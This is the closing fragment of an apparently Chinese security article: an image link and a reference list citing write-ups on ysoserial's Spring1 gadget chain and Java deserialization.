[](https://xzfile.aliyuncs.com/media/upload/picture/20230922124033-2a9a3614-5902-1.png)

## 参考：

[https://su18.org/post/ysoserial-su18-3/#spring1](https://su18.org/post/ysoserial-su18-3/#spring1)

[https://ch1e.cn/post/spring-xi-lie-fan-xu-lie-hua-lian/](https://ch1e.cn/post/spring-xi-lie-fan-xu-lie-hua-lian/)

[https://wooyun.js.org/drops/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7ysoserial%E5%88%86%E6%9E%90.html](https://wooyun.js.org/drops/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7ysoserial%E5%88%86%E6%9E%90.html)

[https://tttang.com/archive/1769/#toc\_\_3](https://tttang.com/archive/1769/#toc__3)
